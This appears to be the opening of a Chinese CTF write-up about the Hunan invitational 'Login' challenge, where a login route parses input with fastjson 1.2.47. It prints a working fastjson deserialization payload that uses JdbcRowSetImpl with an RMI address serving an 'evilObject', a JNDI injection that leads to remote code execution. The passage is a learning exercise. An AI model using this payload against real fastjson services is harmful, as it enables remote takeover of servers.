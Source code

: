 ‍

# 案例分析

‍

## 湖南邀请赛 - Login

‍

tips: 本地是用的是 jdk8u65 起的

[![](assets/1708870136-18c87b0667b820d7d61ebc064404918f.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121103.png)​

明显`login`​路由这存在一个打`fastjson`​的入口，屏蔽了关键字，看依赖是`1.2.47`​的 fastjson

第一反应肯定是打以下的 payload

```bash
import com.alibaba.fastjson.JSON;

public class Fastjson6 {
    public static void main(String[] args) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/evilObject\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}
```
